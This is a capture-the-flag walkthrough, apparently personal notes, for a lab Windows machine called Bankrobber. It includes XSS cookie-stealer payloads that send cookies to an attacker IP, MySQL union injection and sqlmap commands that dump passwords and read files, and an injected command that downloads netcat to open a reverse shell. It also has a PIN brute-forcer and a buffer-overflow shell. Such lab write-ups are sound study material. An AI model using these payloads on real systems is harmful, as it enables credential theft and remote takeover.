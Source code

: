 # Enumeration
```
PORT     STATE SERVICE      VERSION
80/tcp   open  http         Apache httpd 2.4.39 ((Win64) OpenSSL/1.1.1b PHP/7.3.4)
|_http-server-header: Apache/2.4.39 (Win64) OpenSSL/1.1.1b PHP/7.3.4
|_http-title: E-coin
443/tcp  open  ssl/http     Apache httpd 2.4.39 ((Win64) OpenSSL/1.1.1b PHP/7.3.4)
|_http-server-header: Apache/2.4.39 (Win64) OpenSSL/1.1.1b PHP/7.3.4
|_ssl-date: TLS randomness does not represent time
| tls-alpn:
|_  http/1.1
| ssl-cert: Subject: commonName=localhost
| Not valid before: 2009-11-10T23:48:47
|_Not valid after:  2019-11-08T23:48:47
|_http-title: E-coin
445/tcp  open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
3306/tcp open  mysql        MariaDB (unauthorized)
Service Info: Host: BANKROBBER; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode:
|   3:1:1:
|_    Message signing enabled but not required
|_clock-skew: mean: -8h00m01s, deviation: 0s, median: -8h00m01s
| smb-security-mode:
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time:
|   date: 2024-02-28T09:14:16
|_  start_date: 2024-02-28T09:08:44
```

Checking the certificate at https://10.10.10.154/
![](attachment/a52dc477d35d211ec76b0be4108e036c.png)
Nothing much so moving on
Checking the webiste:
![](attachment/14df4480bd9b2c32e2cf30b1970235e8.png)
Now trying to create a new user there was a msg field in the url but no cross-site scripting detected.
Looking at source code:
![](attachment/24583e008ac25f55ade0cc8ef69c9be2.png)
Here it is enclosed with html entities so it is safe.
Now trying to login to the account created:
![](attachment/39e7901fa127e1f859375ccc95bf9a9e.png)
So now trying to check XSS. 
Set the img source in comment box as:
`<img src=http://10.10.14.22/PleaseSubscribe.jpeg />`
Now start listening on port 80 on attacker:
`nc -lnvp 80` 
After a few minutes we get connection
![](attachment/a7aa2634e6ef8ab8ea8b810c2a0175d2.png)
Now checking the type of cookie:
![](attachment/5bbc9d8551ddd613aa1ba002eae967ff.png)
It is base64 encoded

Now we can steal the admin cookies
Checking payloadallthethings
We find a cookie stealer;
`<script>document.location='http://10.10.14.22/?c='+btoa(document.cookie)</script>`
**Note** : btoa converts to base64 in case of any weird url encoding
That didn't work so trying one more:
`<img src=x onerror=this.src="http://10.10.14.22/?c=" +btoa(document.cookie) />`
**NOTE**: Do ctrl+U in burpsuite
This worked and we get the payload back
on listener (`python -m http.server 80`)
![](attachment/b354978be3830d6f2e754d4608092409.png)
now decoding this cookie with base64:
`username=YWRtaW4%3D; password=SG9wZWxlc3Nyb21hbnRpYw%3D%3D; id=1`
Now decoding username and password with base64:
username : admin
password: Hopelessromantic

![](attachment/aab13e27ec640748142880f78705cf52.png)
Has to be from localhost
Checking burpsuite:
![](attachment/db1d41d3aa3ffb24593bd0308bfc011c.png)
backdoorchecker.php is checking.
We know that it is mysql from nmap so:

# SQL Injection (mysql)
NOTE: Fill the gaps with + in burpsuite

To check number of columns:
`1' ORDER BY 1--+ ` but in burpsuite: `1'+ORDER+BY+4--+`
We find that there are *3 columns*
Now checking in union is allowed:
`1' union select 1,2,3--+`
Now using smbmap to get passwords:
Save the search.req file from burpsuite
`sqlmap -r search.req --dbms mysql --technique=U --passwords`
or 
`10' UNION SELECT user,password,3 from mysql.user;-- -`
To get the password hash. (check https://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet)
Couldn't crack the hash :(

Now trying to access the backdoorchecker.php from sql.
Checking access with:
`10'+UNION SELECT 1,load_file('c:/windows/system32/license.rtf'),3--+-`
Checking location with:
`10' UNION SELECT 1,@@datadir,3-- -`
![](attachment/4e6621bd6ead705f56121780335e6287.png)
Checking the backdoorchecker.php:
`10' UNION SELECT 1,LOAD_FILE('c:/xampp/htdocs/admin/backdoorchecker.php'),3-- -`
we get the code for the files:
![](attachment/7909b03d4172e8c9e0bc7f662dd5653c.png)

Now we know the checks so writing a payload
```
var xhr = XMLHttpRequest()
var url = "http://localhost/admin/backdoorchecker.php";
var params = "cmd dir | ping -n 1 10.10.14.22";
xhr.open("POST",url);
xhr.setRequestHeader('Content-Type','Applications/x-www-form-urlencoded');
xhr.withCredentials=True;
xhr.send(params)
```

Then using previously discovered XXS to send the payload:
`<script src=http://10.10.14.22/payload.js></script>`
No we get a ping with `sudo tcpdump -i tun0 icmp`

Now modifying the script:
```js
var request = new XMLHttpRequest();
var params = 'cmd=dir|powershell -c "iwr -uri 10.10.14.22/nc64.exe -outfile %temp%\\n.exe"; %temp%\\n.exe -e cmd.exe 10.10.14.22 9001';
request.open('POST', 'http://localhost/admin/backdoorchecker.php', true);
request.setRequestHeader('Content-type', 'application/x-www-form-urlencoded');
request.send(params);)
```
![](attachment/3b1ebbbe90ec751decfd254dfe1efb61.png)
Now we get a shell!
![](attachment/4008b8c7bec3033b6121959c5f34f0a0.png)
The local language is dutch
Now using our smb share:
`net use z: \\10.10.14.22\aditya`
We found bankv2.exe on port 910:
![](attachment/fc430418709fca38c6fd3a4d9c87775f.png)Now using chisel we can access the port:
- Attacker:
	`./chisel server --port 9003  --reverse`
- Target
	`.\chisel.exe client 10.10.14.22:9003 R:910:127.0.0.1:910`
Checking what the port is with netcat:
	`nc localhost 910`
![](attachment/18a3865e76e2063ae15efc7367c6bcff.png)
To bruteforce the pin:
```python
from pwn import *
for i in range(0,9999):
	pin = str(i)
	code = pin.zfill(4)
	r = remote("localhost",910)
	r.recvuntil("[$] ")
	r.sendline(code)
	response = r.recvline()
	r.close()
	if b"Access denied" not in response:
		print(code)
```
![](attachment/2f5f455ac0a84294cd629863ea6cb8c8.png)
code is 0021
Now trying to overflow the buffer:
`python3 -c 'print("A"*32)'`
It overflows at 32
![](attachment/5fe04d483b22aa578817c41b9e72fd1b.png)Now using netcat shell:
Copy nc to the users/cortin folder
![](attachment/7699f8d81fa7e2e8df903be61c19137e.png)
Then running `AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAc:\users\cortin\n.exe 10.10.14.22 9007 -e cmd`
![](attachment/db7f75be7eb018b9c6fe06c9c27d45fe.png)
